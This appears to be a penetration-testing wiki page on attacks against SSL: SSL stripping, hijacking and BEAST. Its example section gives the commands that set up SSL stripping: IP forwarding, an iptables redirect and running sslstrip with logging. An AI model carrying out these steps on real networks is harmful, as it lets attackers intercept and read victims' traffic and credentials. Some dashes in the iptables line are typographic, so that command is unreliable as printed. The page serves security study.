 # Attacks against SSL

## Attack tree

```text
1 SSL stripping
    1.1 Configure attack machine for IP forwarding (AND)
    1.2 Route all HTTP traffic to SSLStrip (AND)
    1.3 Run SSLStrip
2 SSL hijacking
3 SSL beast    
```

## Example

IP forwarding:

    # echo 1 > /proc/sys/net/ipv4/ip_forward

Route traffic

    # iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321

Run `sslstrip` and write the results to a file (`-w strip.log`), listening on port 54321 (`-l 54321`):

    # sslstrip -w strip.log -l 54321

## Notes

### SSL stripping

SSL stripping downgrades an HTTPS connection to HTTP by intercepting the TLS authentication sent from the 
application to the user. The adversary sends an unencrypted version of the application’s site to the user while 
maintaining the secured session with the application. 

It does not do any magical stuff to fulfill the job, it just replaces the protocol of all HTTPS
links in the sniffed traffic. The attacker must take care that the traffic of the victim flows
over his host by launching some kind of [on-path attack](../box/mitm.md) first.

### SSL hijacking

In SSL hijacking an adversary forges authentication keys and passes those to both the user and application during a 
TCP handshake. This sets up what appears to user and application to be a secure connection while the man in the 
middle controls the entire session. 

### SSL beast

SSL beast is an attack developed by Juliano Rizzo and Thai Duong, which leverages weaknesses in 
cipher block chaining (CBC) to exploit the Secure Sockets Layer (SSL) protocol. 
The CBC vulnerability can enable man-in-the-middle (MITM) attacks against SSL in order to silently decrypt 
and obtain authentication tokens, providing hackers with access to the data passed 
between a Web server and the Web browser accessing the server.

## Tools

* [dsniff](https://www.monkey.org/~dugsong/dsniff/)
* [sslstrip](https://www.kali.org/tools/sslstrip/)

## Resources

* [SSL BEAST](https://nerdoholic.org/uploads/dergln/beast_part2/ssl_jun21.pdf) (Browser Exploit Against SSL/TLS)